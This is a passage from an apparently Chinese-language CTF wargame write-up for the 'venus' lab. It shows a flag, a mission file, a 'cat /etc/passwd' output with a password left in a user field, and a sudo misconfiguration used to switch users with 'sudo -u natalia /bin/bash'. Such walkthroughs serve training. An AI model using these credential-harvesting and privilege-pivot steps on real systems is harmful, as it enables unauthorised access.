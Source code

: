 ```shell title="cat /etc/passwd"
......
alice:x:1014:1014:w8NvY27qkpdePox:/pwned/alice:/bin/bash
......
```

## Stage - anna

### flag - 14

```plaintext
8===5Y3DhT66fa6Da8RpLKG0===D~~

```

### 任务目标

```plaintext title="/pwned/anna/mission.txt"
################
# MISSION 0x15 #
################

## EN ##
Maybe sudo can help you to be natalia.
```

### 行动

```shell title="ls -lah"
total 32K
drwxr-x--- 2 root anna 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 anna anna  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anna anna 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 anna anna  807 Apr 23  2023 .profile
-rw-r----- 1 root anna   31 Jul 26  2023 flagz.txt
-rw-r----- 1 root anna  152 Jul 26  2023 mission.txt
```

```shell title="sudo -l"
Matching Defaults entries for anna on venus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User anna may run the following commands on venus:
    (natalia) NOPASSWD: /bin/bash
```

```shell
anna@venus:~$ sudo -u natalia /bin/bash
natalia@venus:/pwned/anna$ whoami
natalia
```

## Stage - natalia
